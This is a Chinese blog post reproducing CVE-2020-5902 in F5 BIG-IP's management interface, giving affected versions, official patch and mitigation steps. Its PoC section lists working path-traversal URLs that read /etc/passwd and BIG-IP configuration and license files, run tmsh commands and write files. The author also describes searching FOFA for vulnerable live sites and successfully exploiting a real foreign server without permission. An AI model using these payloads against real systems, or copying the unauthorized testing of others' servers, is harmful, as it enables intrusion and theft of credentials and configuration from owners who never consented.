



# CVE-2020-5902 简单复现 - zw1sh - 博客园

> 原文：[`www.cnblogs.com/zw1sh/p/13276377.html`](https://www.cnblogs.com/zw1sh/p/13276377.html)

这几天通报了 f5 的一个漏洞，想着先弄个环境保存着，说不定后面就用到了。。

#### 1、漏洞描述

​ 近日，F5 官方发布公告，修复了流量管理用户界面（TMUI）中存在的一个远程代码执行漏洞（CVE-2020-5902）。此漏洞允许未经身份验证的攻击者或经过身份验证的用户通过 BIG-IP 管理端口和/或自身 IP 对 TMUI 进行网络访问，以执行任意系统命令、创建或删除文件、禁用服务和/或执行任意 Java 代码。该漏洞可能对整个系统造成危害。目前监测到网络上已经有 PoC，并且已有利用该漏洞的攻击行为出现，建议用户尽快升级进行防护。

​ F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。

​ 参考链接：[`support.f5.com/csp/article/K52145254`](https://support.f5.com/csp/article/K52145254)

#### 2、受影响的版本

> F5 BIG-IP 15.x 已知易受攻击版本 15.1.0、15.0.0
> 
> F5 BIG-IP 14.x 已知易受攻击版本 14.1.0-14.1.2
> 
> F5 BIG-IP 13.x 已知易受攻击版本 13.1.0-13.1.3
> 
> F5 BIG-IP 12.x 已知易受攻击版本 12.1.0-12.1.5
> 
> F5 BIG-IP 11.x 已知易受攻击版本 11.6.1-11.6.5

#### 3、漏洞 POC

网上流传的几条（本小白只会”捡现成“的 QAQ）：

```
文件读取：
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf

RCE：
https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin

写入文件：
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/test&content=123456 
```

#### 4、复现

因为才公布出来几天，所以网上还可以搜到许多漏洞版本的网站（其实感觉大多数 site 后面也不会修补。），这里尝试搜了一下，发现还挺多，直接用国外的站点尝试一下（毕竟自己搭环境还是挺麻烦的，但不知道搜到的具有漏洞的网站是不是蜜罐。。。）

用 fofa 搜一下漏洞版本：



找到一个漂亮国的能正常访问。测试一下下，发现能成功。


写入文件：


这里尝试 RCE 列出用户，没有输出

获取 shell 网上也有文章写到了，因为是真实网站，就不继续尝试了。：[`github.com/jas502n/CVE-2020-5902`](https://github.com/jas502n/CVE-2020-5902)

自己搭个环境试试，版本为 14.1.2，因为现在官网好像已经下不到漏洞版本了，网上随便找了个别人下载的，但发现 web 页面的账号密码好像被他改了（默认是 admin/admin），不过不影响，也可以直接利用：




尝试下 msf，这里我刚开始使用的离线下载该模块，然后手动添加到 msf，但发现始终载入不了该模块，最后也没解决（应该是我的 msf 版本太低了，识别不到新模块），这里其实新版本 msf 里就有该 exp，不用手动添加，更新 msf 即可（这里遇到一个更新后 msf 无法启动的问题，后面解决了，之后再总结一下吧）


这里没有成功。。后面再尝试下（网上的文章全都一样，只写到了有这个模块，没有人说成功用 exp 拿到了 shell。）

#### 5、官方修复建议

```
通用修补建议：
升级到以下版本

BIG-IP 15.x: 15.1.0.4
BIG-IP 14.x: 14.1.2.6
BIG-IP 13.x: 13.1.3.4
BIG-IP 12.x: 12.1.5.2
BIG-IP 11.x: 11.6.5.2
临时修补建议：
官方建议可以通过以下步骤临时缓解影响

1) 使用以下命令登录对应系统

tmsh
2) 编辑 httpd 组件的配置文件

edit /sys httpd all-properties
3) 文件内容如下

include '
<LocationMatch "...;.">
Redirect 404 /
</LocationMatch>
'
4) 按照如下操作保存文件

按下 ESC 并依次输入
:wq
5) 执行命令刷新配置文件

save /sys config
6) 重启 httpd 服务

restart sys service httpd
并禁止外部 IP 对 TMUI 页面的访问 
```